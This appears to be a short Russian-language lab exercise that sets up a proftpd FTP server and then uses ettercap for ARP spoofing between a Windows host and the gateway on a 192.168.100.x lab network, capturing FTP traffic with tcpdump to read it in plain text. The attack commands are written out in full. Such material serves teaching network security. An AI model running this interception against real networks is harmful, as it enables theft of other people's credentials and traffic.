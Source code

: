 Сервер FTP

Установка и запуск сервиса

```
nano /etc/hosts
```
Заменить
```
127.0.1.1 server.corp.ru server
```

```
root@server:~# apt install proftpd-basic

```

Утилита ettercap

Установка

```
lan# apt install ettercap-text-only
```

ARP спуфинг
```
win arp -a
```
```
lan# ettercap -T -M arp //192.168.100.<ip windows> // //192.168.100.1//
```
```
win arp -a
```
```
lan# tcpdump -n -s0 -A port 21
```

Произвести подключение к FTP и посмотреть трафик
